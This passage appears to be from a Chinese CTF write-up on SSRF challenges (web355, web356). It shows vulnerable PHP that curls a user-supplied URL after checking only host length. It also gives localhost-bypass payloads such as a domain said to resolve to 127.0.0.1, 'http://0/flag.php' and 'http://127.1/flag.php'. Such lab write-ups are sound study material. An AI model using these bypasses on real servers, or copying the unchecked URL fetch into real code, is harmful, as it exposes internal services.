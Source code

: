0 1 127 都被过滤了

这里确实学到了

http://sudo.cc 指向的 就是 127.0.0.1

我们直接使用这个payload

```cobol
http://sudo.cc/flag.php
```

## web355  host长度

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
} 
```

没有过滤 但是 host需要为 小于5

payload

```cobol
url=http://0/flag.php
```

看wp还存在一个解法

```cobol
http://127.1/flag.php
```

## web356

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=3)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
```